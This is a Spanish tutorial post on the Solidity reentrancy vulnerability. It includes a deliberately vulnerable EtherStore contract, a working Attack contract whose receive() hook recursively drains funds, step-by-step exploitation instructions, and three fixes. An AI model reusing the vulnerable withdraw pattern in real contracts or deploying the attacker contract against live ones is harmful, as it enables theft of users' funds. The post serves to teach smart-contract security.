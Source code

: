 ```yaml
---
title: 'Solidity: Ataque Reentrancy'
description: 'Uno de los problemas de seguridad más comunes es el denominado Reetrancy que provoca llamadas recursivas a una misma función de un contrato hasta vaciar los fondos del mismo.'
image: '/tech/solidity.webp'
pubDate: '06/01/2023'
englishMetadata: {
  title: 'Solidity: Reetrancy Attack',
  description: 'One of the most common security problems is called Reetrancy, which causes recursive calls to the same function of a contract until the funds are emptied.'
}
prev: 'dos-gas'
next: 'cross-reentrancy-attack'
---
```


# Solidity: Ataque Reentrancy

**El depósito y retiro de ETH en un contrato** por parte de un usuario **puede exponer vulnerabilidades** si los mismos no se realizan de la forma correcta.

## Reentrada de transacciones

Uno de los problemas de seguridad más comunes es el denominado **Reetrancy** que provoca llamadas recursivas a una misma función de un contrato hasta vaciar los fondos del mismo.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado

Utilizaremos de ejemplo un contrato inteligente que permite depositar y retirar ETH. Cada dirección solo puede retirar sus propios fondos, pero la vulnerabilidad permitirá que un atacante se quede con todos los fondos.

> **NOTA:** El ejemplo de esta vulnerabilidad fue tomado y adaptado originalmente de [Solidity by examples](https://solidity-by-example.org/hacks/re-entrancy/).

### Contratos involucrados

Comencemos con el contrato principal que contiene la lógica de negocios para el depósito y retiro de Ether.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract EtherStore {
  mapping(address => uint) public balances;

  // Deposito de ETH
  function deposit() public payable {
    balances[msg.sender] += msg.value;
  }

  // Retiro de ETH
  function withdraw() public {
    uint monto = balances[msg.sender];
    require(monto > 0);

    (bool sent, ) = msg.sender.call{value: monto}("");
    require(sent, "El envio de ETH ha fallado.");
    balances[msg.sender] = 0;
  }

  // Funciona auxiliar para visualizar el balance total del contrato
  function getBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

Por otro lado, el contrato atacante. Presta atención a la función `receive()` que es la vía por la cual se genera la recursividad y permite el robo de todos los fondos.

```js
contract Attack {
  EtherStore public etherStore;

  constructor(address _etherStoreAddress) {
    // Creamos la instancia de EtherStore.
    etherStore = EtherStore(_etherStoreAddress);
  }

  // Función receive() es llamada cuando EtherStore envia ETH a este contrato.
  receive() external payable {
    // Al retirar el primer ETH, EtherStore lo enviará a este hook que vuelve a llamar a withdraw de forma recursiva
    if (address(etherStore).balance >= 1 ether) {
      etherStore.withdraw();
    }
  }

  // El ataque consiste en depositar 1 ETH e inmediatamente retirarlo
  function attack() external payable {
    require(msg.value >= 1 ether);
    etherStore.deposit{value: 1 ether}();
    etherStore.withdraw();
  }

  // Funciona auxiliar para visualizar el balance total del contrato.
  function getBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

### Procedimiento para vulnerar el contrato

1. Desplegar el contrato `EtherStore`.
2. Depositar 1 ETH con dos cuentas. Hasta este punto, el contrato tendría 2 ETH.
3. Desplegar contrato `Attack` que recibe en el constructor la dirección de `EtherStore`.
4. Hacer el llamado a `Attack.attack` enviando 1 ETH con una tercera cuenta para tener acceso a realizar una extracción. El contrato atacante recibirá los 3 ETH.

### ¿Qué sucedió aquí?

`Attack` llamó a `EtherStore.withdraw` múltiples veces antes de que `EtherStore.withdraw` finalice su ejecución.

**Así es el orden de llamados de las funciones:**
- `Attack.attack`
- `EtherStore.deposit`
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)

### ¿Por qué sucedió?

Al realizarse las llamadas de forma recursiva, **el balance de la cuenta del atacante nunca llega a 0** y, por lo tanto, permite seguir haciendo retiros. Observa que el balance de la cuenta del contrato atacante se setea a 0 recién en la última línea de código de la función `withdraw()`.

```js
function withdraw() public {
    uint monto = balances[msg.sender];
    require(monto > 0);
    (bool sent, ) = msg.sender.call{value: monto}("");
    require(sent, "El envio de ETH ha fallado.");
    balances[msg.sender] = 0;
}
```

### ¿Cómo se puede evitar?

Hay al menos tres medidas que puedes tomar para evitar este enorme problema de seguridad.

1. El primero es **mover el seteo del balance a 0 antes del llamado a la función externa**.

```js
function withdraw() public {
  uint monto = balances[msg.sender];
  require(monto > 0);

  balances[msg.sender] = 0;   // Seteo del balance antes del 'msg.sender.call'

  (bool sent, ) = msg.sender.call{value: monto}("");
  require(sent, "El envio de ETH ha fallado.");
}
```
Corresponde setear a 0 el balance de la cuenta que retira sus fondos antes de realizar el llamado externo. En el caso de que el llamado falle por otro motivo, no te preocupes, ya que el `require()` hará un `revert()` y los balances volverán a como estaban antes del fallo.

2. También puedes **setear el uso del gas en la llamada externa**.

```js
(bool sent, ) = msg.sender.call{value: monto, gas: 10000}("");
```
Siempre es aconsejable configurar el gas disponible para un llamado externo

3. Otra forma de solucionar esta vulnerabilidad es con **un modificador que valide que la función no se esté llamando de forma recursiva**. Afortunadamente, [OpenZeppelin ya tiene un contrato auditado y seguro](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol) para solventar este problema.

```js
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract EtherStore is ReentrancyGuard {
  // ...

  function withdraw() public nonReentrant {
    // ...
  }
}
```

## Conclusión

Has visto hasta aquí la exigencia de desarrollar un contrato inteligente que administre correctamente fondos. Un simple cambio de orden en la lógica de un contrato puede causar perdidas millonarias. Claro que ya las ha causado y, por este motivo, **Reentrancy** es una vulnerabilidad bien conocida que debes prevenir estudiando su funcionamiento y escribiendo código de forma segura.

---
Post creado en colaboración con el [Curso de Seguridad de Smart Contracts](https://platzi.com/cursos/seguridad-smart-contracts/) de **Platzi**.
